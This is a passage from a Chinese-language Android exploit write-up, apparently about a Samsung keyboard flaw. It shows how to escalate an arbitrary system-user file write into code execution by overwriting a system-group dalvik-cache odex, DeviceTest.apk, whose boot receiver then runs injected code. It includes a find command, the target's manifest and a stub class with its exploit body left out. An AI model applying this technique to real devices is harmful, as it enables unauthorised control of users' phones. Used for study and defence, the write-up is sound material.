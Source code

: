 File write to code execution
----------------------------

* * *

现在我们有了 system user 的任意写入权限.下一个目标就是将写权限变成代码执行.Swift 输入法自身目录并没有可执行的二进制文件供我们覆盖.所以得另寻它处.

再对dex文件进行优化之后,文件会缓存到/data/dalvik-cache/目录下.此目录下所有文件为 system user 权限.现在需要寻找system组的文件,这样就可以通过system user权限执行.

root@kltevzw:/data/dalvik-cache # /data/local/tmp/busybox find . -type f -group 1000 ./system@framework@colorextractionlib.jar@classes.dex ./system@framework@com.google.android.media.effects.jar@classes.dex ./system@framework@com.google.android.maps.jar@classes.dex ./system@framework@VZWAPNLib.apk@classes.dex ./system@framework@cneapiclient.jar@classes.dex ./system@framework@com.samsung.device.jar@classes.dex ./system@framework@com.quicinc.cne.jar@classes.dex ./system@framework@qmapbridge.jar@classes.dex ./system@framework@rcsimssettings.jar@classes.dex ./system@framework@rcsservice.jar@classes.dex ./system@priv-app@DeviceTest.apk@classes.dex

[[email protected]](http://drops.com:8000/cdn-cgi/l/email-protection)下,对于整个odex文件仅替换需要的目标.最后选择DeviceTest(/data/dalvik-cache/system@priv-app@DeviceTest.apk@classes.dex) 作为目标.

反编译之后查看manifest文件,可以看到应用确实有sharedUserId=”android.id.system”,并且看到BroadcastReceiver定义, 激活它即可自动重启设备.

```
<manifest android:sharedUserId="android.uid.system" android:versionCode="1" android:versionName="1.0" package="com.sec.factory" xmlns:android="http://schemas.android.com/apk/res/android">
       ...
               <receiver android:name="com.sec.factory.entry.FactoryTestBroadcastReceiver">
                   <intent-filter>
                       <action android:name="android.intent.action.MEDIA_SCANNER_FINISHED" />
                       <data android:scheme="file" />
                   </intent-filter>
                   <intent-filter>
                       <action android:name="android.intent.action.PACKAGE_CHANGED" />
                       <data android:scheme="package" />
                   </intent-filter>
                   <intent-filter>
                       <action android:name="android.intent.action.PRE_BOOT_COMPLETED" />
                       <action android:name="android.intent.action.BOOT_COMPLETED" />
                   </intent-filter>
                   <intent-filter>
                       <action android:name="com.sec.atd.request_reconnect" />
                       <action android:name="android.intent.action.CSC_MODEM_SETTING" />
                   </intent-filter>
               </receiver>

```

现在需要为com.sec.factory.entry.FactoryTestBroadcastReceiver生成一个odex文件,exploit 代码如下:

```
➜cat FactoryTestBroadcastReceiver.java | head

       package com.sec.factory.entry;
       import java.lang.Class;
       import java.io.File;
       import android.content.BroadcastReceiver;
       import android.content.Context;
       import android.content.Intent;
       import android.util.Log;

       public class FactoryTestBroadcastReceiver extends BroadcastReceiver {
          //Exploit code here
       }

```
